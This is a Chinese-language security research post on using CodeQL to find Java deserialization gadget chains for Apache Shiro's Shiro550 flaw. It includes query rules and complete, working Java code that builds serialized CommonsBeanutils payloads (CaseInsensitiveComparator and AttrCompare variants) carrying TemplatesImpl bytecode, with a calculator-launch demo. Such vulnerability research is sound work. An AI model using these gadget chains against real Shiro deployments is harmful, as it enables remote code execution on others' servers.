

CodeQL在Shiro550中的应用
---


---

**更新日志**
- 2022/09/27 
```
优化 CommonsBeanutils_JDK_AttrCompare 代码
```

### 0x00 前言

最近在重新梳理 Shiro 的历史漏洞和利用, 记录一下CodeQL在Shiro550上的应用。

### 0x01 简介

本文将要介绍以下内容：

- 利用 Docker 部署 CodeQL
- 分析 Shiro550 目前最常用的 Gadget CommonsBeanutils1Shiro
- 如何利用 CodeQL 去挖掘类 CommonsBeanutils1Shiro 的 Gadget Chain

### 0x02 环境准备

需要准备的环境和工具

- CodeQL
    - https://github.com/j3ssie/codeql-docker
- extractor-java
    - https://github.com/waderwu/extractor-java

如图


待分析的 jar

- jdk8u121 rt.jar

```shell
# 将待分析的 jar copy 到 容器内
docker cp F:\workspace\static_analysis\lib\jdk8u21\rt.jar 73e:/root/src/jdk8u21/rt.jar

# 解压 jar 包
unzip /root/src/jdk8u21/rt.jar -d /root/src/jdk8u21/rt_jar

# 使用 extractor-java 创建数据库 jdk8u121-rt-cqdb
python /root/extractor-java-master/class2java.py /root/src/jdk8u121/rt_jar/
python /root/extractor-java-master/run.py jdk8u121-rt-cqdb /root/src/jdk8u121/rt_jar/

# 将数据库jdk8u121-rt-cqdb 复制到宿主机, 导入 vscode
docker cp 73e:/root/jdk8u121-rt-cqdb F:\workspace\static_analysis\codeql\code\local\databases\
```

如图


### 0x03 CommonsBeanutils 演变史

#### CommonsBeanutils1

对于 Shiro550 漏洞的不出网利用，最初使用的应该是

- [CommonsBeanutils1 - ysoserial](https://github.com/frohoff/ysoserial/blob/master/src/main/java/ysoserial/payloads/CommonsBeanutils1.java)

其中对于 BeanComparator 的使用是依赖于 Commons-Collections 的,

```shell
final BeanComparator comparator = new BeanComparator("lowestSetBit");
```

BeanComparator 的构造方法，在没有显式传入 Comparator 时，会默认使用 ComparableComparator

```java
  public BeanComparator(String property,Comparator comparator){
        this.setProperty(property);
        // 没有指定 comparator, 则走 else 分支
        if(comparator!=null){
        this.comparator=comparator;
        }else{
        this.comparator=ComparableComparator.getInstance();
        }

        }
```

这里`BeanComparator("lowestSetBit")`没有指定 comparator, 则走 else 分支, 即 ComparableComparator, 但当本地没有
Commons-Collections 依赖时, 如图


这种情况下则无法使用CB1进行漏洞利用, 测试时抛出异常 `java.lang.NoClassDefFoundError`如图


> Q: 这里因为没有 ComparableComparator 导致无法利用, 那可不可以找一个相似的类来代替它呢?
>
> A: 当然可以，其实就是 CommonsBeanutils1Shiro 这条链。

#### CommonsBeanutils1Shiro

CommonsBeanutils1Shiro 是出自 p牛 《Java安全漫谈》系列中的一条无 CC 依赖 Shiro 反序列化利用链。

- [CommonsBeanutils1Shiro - phith0n](https://www.leavesongs.com/PENETRATION/commons-beanutils-without-commons-collections.html#shiro)

> Q: 如何找到一个符合要求的类呢?
>
> A: 分析 ComparableComparator 其有哪些特征,然后根据这些特征匹配即可。

- org.apache.commons.collections.comparators.ComparableComparator

```java
import java.io.Serializable;
import java.util.Comparator;

public class ComparableComparator implements Comparator, Serializable {
    private static final long serialVersionUID = -291439688585137865L;
    private static final ComparableComparator instance = new ComparableComparator();

```

特征梳理如下

- 权限修饰符 public
    - private也可以, 利用反射来构造
- 实现了 Comparator 接口
- 实现了 Serializable 接口

p牛 通过这些特征用IDEA找到了 CaseInsensitiveComparator

- java.lang.String.CaseInsensitiveComparator

```java

public static final Comparator<String> CASE_INSENSITIVE_ORDER=new CaseInsensitiveComparator();

private static class CaseInsensitiveComparator
        implements Comparator<String>, java.io.Serializable {
    // use serialVersionUID from JDK 1.2.2 for interoperability
    private static final long serialVersionUID = 8575799808933029326L;

```

可以通过 String.CASE_INSENSITIVE_ORDER 获取到 CaseInsensitiveComparator 对象, 来代替ComparableComparator。
即修改 CommonsBeanutils1 中的

```java
final BeanComparator comparator=new BeanComparator("lowestSetBit");
```

为

```java
final BeanComparator comparator=new BeanComparator("lowestSetBit",String.CASE_INSENSITIVE_ORDER);
```

这就是无CC依赖的一条Shiro反序列化利用链 - CommonsBeanutils1Shiro。

完整代码

```java
public class CommonsBeanutils_Shiro {

    public static void main(String[] args) throws Exception {
        getPayload(Calc.class.getName());
        Path path = Paths.get("poc.ser");
        ObjectInputStream ois = new ObjectInputStream(Files.newInputStream(path));
        ois.readObject();

    }

    public static void getPayload(String class_name) throws Exception {
        ClassPool pool = ClassPool.getDefault();
        CtClass clazz = pool.get(class_name);
        TemplatesImpl templates = new TemplatesImpl();
        setFieldValue(templates, "_name", "test");
        setFieldValue(templates, "_bytecodes", new byte[][]{clazz.toBytecode()});
        setFieldValue(templates, "_tfactory", new TransformerFactoryImpl());

        final BeanComparator comparator = new BeanComparator(null, String.CASE_INSENSITIVE_ORDER);
        final PriorityQueue<Object> queue = new PriorityQueue<Object>(2, comparator);

        queue.add("aaa");
        queue.add("aaa");

        setFieldValue(queue, "queue", new Object[]{templates, templates});
        setFieldValue(comparator, "property", "outputProperties");

        Path path = Paths.get("poc.ser");
        ObjectOutputStream oos = new ObjectOutputStream(Files.newOutputStream(path));
        oos.writeObject(queue);
    }

    public static void setFieldValue(Object obj, String fieldName, Object value) throws Exception {
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, value);
    }
}
```

测试效果



到这一步只是把 p牛的工作用自己的理解复现了一遍, 当然不能仅限于此。

> Q: 自己能不能根据类似的规则去挖掘新的类来构造 Gadget Chain 呢？
>
> A: Just Do It !

### 0x04 CodeQL 的应用

在 0x02、0x03 步骤中创建了 rt.jar 的数据库, 并总结了 ComparableComparator 类的特征, 现在只需要根据这些特征编写 CodeQL
查询规则即可。

已知特征如下

- 权限修饰符 public (可选)
    - 因为 private 可以利用反射来构造
- 实现了 Comparator 接口
- 实现了 Serializable 接口

1) 查询实现了 Comparator 接口的类

```ql
import java

class ExpectClass extends ClassOrInterface{
    ExpectClass(){
        this.getName() = "Comparator"
    }
}

predicate isExpectClass(Class clazz){
    clazz.getASourceSupertype() instanceof ExpectClass
}

from Class clazz 
where isExpectClass(clazz)
select clazz 
```

查询结果如图


得到 76 个类, 继续加条件来优化查询结果。

2) 查询同时实现了 Comparator 和 Serializable 接口的类

```ql
import java

class ExpectClass extends ClassOrInterface{
    ExpectClass(){
        this.getName() = "Comparator"
    }
}

predicate isExpectClass(Class clazz){
    clazz.getASourceSupertype() instanceof ExpectClass
    and clazz.getASourceSupertype() instanceof TypeSerializable
}

from Class clazz 
where isExpectClass(clazz)
select clazz 
```

查询结果如图


7 个类, p牛找的替代类`CaseInsensitiveComparator`也在其中, 说明这个查询结果还算是可靠的, 剩下就是挨个分析是否可用并构造新的
gadget 即可。

### 0x05 新的 CommonsBeanutils ?

#### AttrCompare

第1个类：AttrCompare


最终构造出的 Gadget Chain

```java
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import com.sun.org.apache.xml.internal.security.c14n.helper.AttrCompare;
import javassist.ClassPool;
import javassist.CtClass;
import org.apache.commons.beanutils.BeanComparator;

import java.io.ByteArrayOutputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.PriorityQueue;

public class CommonsBeanutils_JDK_AttrCompare {
    public static void setFieldValue(Object obj, String fieldName, Object value) throws Exception {
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, value);
    }

    public static void getFieldValue(Object obj, String fieldName) throws NoSuchFieldException, IllegalAccessException {
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        System.out.println(field.get(obj));
        System.out.println(field.get(obj).getClass().getName());
    }

    public static byte[] getPayload(byte[] clazzBytes) throws Exception {
        TemplatesImpl templates = new TemplatesImpl();
        setFieldValue(templates, "_bytecodes", new byte[][]{clazzBytes});
        setFieldValue(templates, "_name", "HelloTemplatesImpl");
        setFieldValue(templates, "_tfactory", new TransformerFactoryImpl());

        final BeanComparator comparator = new BeanComparator("outputProperties", new AttrCompare());
        final PriorityQueue<Object> queue = new PriorityQueue<>();
        setFieldValue(queue, "comparator", comparator);
        setFieldValue(queue, "size", 2);
        setFieldValue(queue, "queue", new Object[]{templates, templates});

        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(barr);
        oos.writeObject(queue);
        oos.close();

        return barr.toByteArray();
    }
}
```

- PayloadRunner.java

```java
import javassist.ClassPool;
import javassist.CtClass;

import java.io.ByteArrayInputStream;
import java.io.IOException;
import java.io.InputStream;
import java.io.ObjectInputStream;

public class PayloadRunner {
    public static void main(String[] args) throws Exception{
        ClassPool pool = ClassPool.getDefault();
        CtClass clazz = pool.get(Calc.class.getName());
        byte[] payload = CommonsBeanutils_JDK_AttrCompare_debug.getPayload(clazz.toBytecode());
        deserialize(payload);
    }

    public static Object deserialize(final byte[] serialized) throws IOException, ClassNotFoundException {
        final ByteArrayInputStream in = new ByteArrayInputStream(serialized);
        return deserialize(in);
    }

    public static Object deserialize(final InputStream in) throws ClassNotFoundException, IOException {
        final ObjectInputStream objIn = new ObjectInputStream(in);
        return objIn.readObject();
    }
}
```
测试效果


### 0x06 小结

快半年没写文章输出, 公众号也停更了, 鸽子本鸽。

---
参考

```
https://www.leavesongs.com/PENETRATION/commons-beanutils-without-commons-collections.html
# SummerSec 师傅也做了这个工作, 而且还更全面, 膜
https://sumsec.me/2022/CodeQL%E4%B8%8EShiro550%E7%A2%B0%E6%92%9E.html 
```